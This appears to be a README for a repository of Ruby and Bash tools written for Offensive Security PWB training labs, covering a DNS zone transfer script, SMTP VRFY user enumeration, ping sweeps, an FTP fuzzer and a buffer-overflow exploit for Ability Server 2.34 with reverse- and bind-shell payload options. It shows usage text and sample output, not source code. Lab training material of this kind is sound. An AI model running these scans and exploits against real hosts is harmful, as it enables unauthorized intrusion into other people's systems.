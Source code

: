 Tools for Offsec PWB Labs
========

axfr.rb
--------

An example Ruby script that attempts a full DNS zone transfer (AXFR) using dnsruby

```
Usage: axfr.rb [options] zone

Available options:
    -n, --nameserver HOSTNAME        Specify the nameserver to AXFR zone from
    -w, --timeout SECONDS            Wait timeout in seconds
    -v, --verbose                    Be more verbose
    -h, --help                       Show this help
```

smtpvrfy.rb
--------

Multithreaded SMTP user enumartion tool. You can fine tune the number of threads and users checked in one connection. 
Please note that some SMTP servers might not allow you to do more than a few VRFY calls. The default is to 
reconnect after checkign 3 users. Without the dictionary file the tool only checks for a few standard users. 

```
# ./smtpvrfy.rb -h
Usage: smtpvrfy.rb [options] SMTP_SERVER[:PORT]
Where available options:
    -t, --threads N                  Number of threads (connections) to use - Default: 50
    -c, --chunk N                    Recycle the connection (thread) after N number of users checked - Default: 3
    -u, --user FILE                  Read a dict file with users
    -d, --debug                      Enable session debug
    -h, --help                       Show this help

``` 
Example:

```
# ./smtpvrfy.rb -t 10 -c 5 -u userdict.txt 192.168.11.215
Time: 00:00:20 |===================================================>>| 100% VRFY
adm@redhat.acme.com
apache@redhat.acme.com
bin@redhat.acme.com
bob@redhat.acme.com
```
mping.sh
---------

Just a simple Bash script that indentifies all live hosts (responding to ping) on a given network(s).

```
Usage: ./mping.sh [-t] <IP Range>[,<IP Range>]
  Options:
  -t <n>: Number of ping threads to use (Default: 50)
  -v    : Verbose mode

  Example:
      ./mping.sh 192.168.11.200-192.168.11.254
      ./mping.sh -t 100 192.168.1.1-192.168.1.100,10.1.0.0-10.2.1.1

```

mping.rb
--------
Just a simple Ruby script that indentifies all live hosts (responding to ping) on a given network(s).

```
# ./mping.rb 
Usage:
    mping.rb [options]
    -t, --thread [N]                 Threads to spawn
    -v, --verbose                    Run verbosely
    -h, --help                       Show help
Example:
    mping.rb 192.168.10.200-192.168.10.254
    mping.rb -t 100 10.1.2.3-10.1.2.254,192.168.1.1-192.168.10.254
```
Example:

```
# ./mping.rb -t100 192.168.11.200-192.168.11.254,192.168.13.200-192.168.13.254,192.168.15.200-192.168.15.254,192.168.17.200-192.168.17.254 
Time: 00:00:10 |===============================================================================================================================================================================>>| 100% Ping
192.168.11.201
192.168.11.202
192.168.11.205
192.168.11.206
192.168.11.208
```

ftpfuzz.rb
---------

A basic ftp fuzzer

```
Usage: ftpfuzz.rb [options] ftp-host[:port]

Where available options:
    -u, --user USER                  FTP Username
    -p, --pass PASS                  FTP Password
    -c, --command COMMAND            FTP command to fuzz
    -P, --payload PAYLOAD            Payload to repeat
    -i, --increment INT              Increment the payload times
    -v, --verbose                    Verbose output
    -h, --help                       Show this help
```

Example:

```
# ./ftpfuzz.rb -v -u ftp -p ftp -P A -i 300 -c APPE 192.168.1.4 
220 Welcome to Code-Crafters - Ability Server 2.34. (Ability Server 2.34 by Code-Crafters).
USER ftp
331 Please send PASS now.
PASS ftp
230- Welcome to Code-Crafters - Ability Server 2.34.
230 User 'ftp' logged in.

[*] Using: APPE A
[*] Sending A of size 1 characters
550 File write/modification access disallowed.
[*] Sending A of size 301 characters
550 File write/modification access disallowed.
[*] Sending A of size 601 characters
550 File write/modification access disallowed.
[*] Sending A of size 901 characters
550 File write/modification access disallowed.
[*] Sending A of size 1201 characters
./ftpfuzz.rb:73:in `gets': Connection reset by peer (Errno::ECONNRESET) 
```
ability_appe_exploit.rb
---------------

Exploit against Ability Server <= 2.34 using buffer - Windows XP SP2 

```
Usage: ability_appe_exploit.rb [options] ftp-host[:port]

Where available options:
    -u, --user USER                  FTP Username
    -p, --pass PASS                  FTP Password
    -s, --shellcode TYPE             Shellcode to inject
      Where TYPE can be:
                          simple
                          pattern
                          revshp
                          revsht
                          bind
    -w, --winver                     Windows version
    -v, --verbose                    Verbose output
    -h, --help                       Show this help
```
Example usage:

```
$ ability_appe_exploit.rb -u ftp -p ftp -v -s revsht 192.168.11.97
220 Welcome to Code-Crafters - Ability Server 2.34. (Ability Server 2.34 by Code-Crafters).
USER ftp
331 Please send PASS now.
PASS ftp
230- Welcome to Code-Crafters - Ability Server 2.34.
230 User 'ftp' logged in.
[*] Deliverying the payload...
APPE ��������������������������....
```
